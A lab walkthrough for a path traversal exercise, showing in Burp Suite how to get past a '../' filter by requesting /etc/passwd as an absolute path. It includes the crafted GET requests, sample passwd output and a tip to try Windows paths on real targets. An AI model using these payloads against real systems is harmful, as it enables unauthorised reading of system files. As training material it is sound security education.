

🧪 Lab: File Path Traversal (Absolute Path Bypass)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab
Turn Intercept ON in Burp
Click on a product image

Captured request:

GET /image?filename=product.jpg HTTP/1.1
Host: target
2. Send to Repeater
Right-click → Send to Repeater
3. Modify the Payload

Since traversal sequences like ../ are blocked, use an absolute path:

GET /image?filename=/etc/passwd HTTP/1.1
Host: target
4. Send the Request
Click Send
5. Observe the Response

Response contains:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ Successfully accessed /etc/passwd

💡 Why This Works (Important Insight)
The app blocks ../ (traversal sequences)
❌ But it does NOT block absolute paths
The server treats input as a file path directly

So instead of:

../../../etc/passwd ❌ (blocked)

You use:

/etc/passwd ✅ (bypass)
🧠 Pro Tip (Real-World Thinking)

Always test:

../ → if blocked ❌
/etc/passwd → absolute path ✅

Windows targets:

C:\Windows\win.ini

👉 This is a classic filter bypass mistake

